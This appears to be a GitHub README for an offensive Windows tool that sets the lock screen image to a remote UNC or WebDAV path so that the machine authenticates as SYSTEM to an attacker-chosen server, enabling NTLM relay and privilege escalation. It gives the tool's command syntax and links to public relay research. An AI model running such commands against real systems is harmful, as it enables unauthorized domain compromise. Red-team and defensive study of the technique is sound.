 # Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from command line to perform privilege escalation attacks such as the following:
*  (Link to Blog)

# Features

By default, Windows 10 has a feature called Windows Spotlight. It is in charge of downloading and displaying lock screen images automatically. 
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments.
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it and establish it again.

N.B. While the Poweshell version of the tool works smoothly, the C# version sometimes fails restoring the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

(GIF IMAGE CHANGE)

# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/

